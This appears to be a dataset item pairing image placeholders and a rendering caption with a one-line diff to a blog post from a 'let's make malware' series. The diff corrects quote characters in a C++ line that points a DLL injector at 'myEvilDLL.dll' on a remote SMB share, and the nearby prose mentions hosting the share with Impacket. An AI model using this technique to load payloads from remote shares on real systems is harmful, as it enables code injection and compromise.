

Before and after one commit to RePRGM/rePRGM.github.io, a Jekyll site: the page built from _posts/2023-01-20-lets-make-malware-part-3.md, in a window 1280 px wide and 900 px high, scrolled down 7410 px. Shown: the whole window, without its empty margins (272-1003 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

````diff
--- a/_posts/2023-01-20-lets-make-malware-part-3.md
+++ b/_posts/2023-01-20-lets-make-malware-part-3.md
@@ -203,7 +203,7 @@ To utilize this, we will make one small change to our injector code.
 We will change our myDLLPath variable to this and recompile:
 
 ```cpp
-char myDLLPath[] = “\\\\192.168.1.24\\TempShare\\myEvilDLL.dll”;
+char myDLLPath[] = "\\\\192.168.1.24\\TempShare\\myEvilDLL.dll";
 ```
 
 This time, we will host our DLL on our own system on a share. We can do so using either Samba or the Impacket SMBSever.py script. For Impacket, we will use this command:
````
